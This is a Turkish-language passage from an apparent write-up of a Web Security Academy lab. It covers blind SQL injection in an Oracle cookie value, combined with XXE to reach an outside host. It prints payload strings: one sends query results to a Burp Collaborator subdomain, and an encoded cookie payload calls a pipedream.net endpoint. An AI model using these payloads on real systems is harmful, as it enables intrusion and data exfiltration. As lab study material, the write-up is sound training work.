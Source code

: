 Şuan SQL Injection zafiyetinin varlığını ve veritabanı sisteminin ne olduğunu tespit edemediğimiz için başlangıçta Oracle üzerinden denemeler yapalım. Bu kısımdaki yapıdan yararlanacağız. Buradaki yapıda da daha önce ele aldığımız XXE zafiyeti ile alakalı bir konudur. 

```python
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

Buraya gelirken de anlamamız gereken bir nokta daha bulunmakta. Cookie’de bulunan TrackingId alındıktan sonra ne yapıldığını da bilmeliyiz.

![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%20feb066966c2e47eba3a600afa27d1032/Untitled%2035.png)

Gerçek hayattan örnekleri düşünecek olursak TrackingId’nin değeri direkt olarak SELECT sorgularında geçmez, INSERT sorgularında geçmesi daha muhtemeldir. 

```python
INSERT INTO X (a,b,c) VALUES ('','','yVal16XJw78Gd1zM')
```

Bizim değerimiz buraya geliyorsa Oracle’da string birleştirmenin nasıl olduğuna bakarak ilerleyebiliriz. Oracle’da string birleştirme 'foo'||'bar’ şeklinde olmaktadır. Örneğin bizim verimiz 3. değişkende olacaksa burada bir subselect sorgusu açabilir miyiz diye düşünelim. Eğer bunu gerçekleştirebilirsek buradan ilerleyebiliriz. 

```python
INSERT INTO X (a,b,c) VALUES ('','','yVal16X||()||Jw78Gd1zM')
```

Lab ortamında da yapmamız gereken şey temelde bu mantığa dayanmaktadır. Ayrıca buradaki bazı özel karakterleri de Cookie yapısının bozulmaması için encode etmemiz gerekmektedir. Noktalı virgül → %3b ve % → %25

```python
'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://https://eo2pbauj182lj8v.m.pipedream.net/"> %25remote%3b]>'),'/l') FROM dual)||'
```
